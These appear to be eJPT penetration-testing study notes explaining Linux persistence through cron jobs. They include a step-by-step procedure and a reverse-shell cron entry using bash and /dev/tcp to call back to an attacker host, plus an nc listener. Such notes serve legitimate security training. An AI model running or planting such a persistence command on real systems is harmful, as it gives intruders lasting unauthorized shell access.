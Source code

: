 
### Persistence Via Cron Jobs

+ Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.

+ An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job.

+ We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.

### Anatomy of Cron Job

![image](https://github.com/B4PHOM3T/eJPT-Notes/assets/89618500/9bb9889f-429d-4e4c-a881-1764a31a3695)

### How to perform ?

1. Gain initial access. In our case, we'll be using SSH to get access.

2. We can enumerate the various cron jobs using `cat /etc/cron*`. This will display the Cron tab file.

3. We can add a Cron job which will connect to us using the following command
```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'" > cron
```

4. We check the content of the `cron` file which we saved. 

5. We can now add this Cron job using `crontab -i cron`.

6. List the Cron jobs added using `crontab -l`. This will run the Cron job with the permissions of the current user. 

7. Now we can setup a `nc` listener to get a connection from the Cron job whenever it runs. The shell we'll obtain will be an interactive shell. 
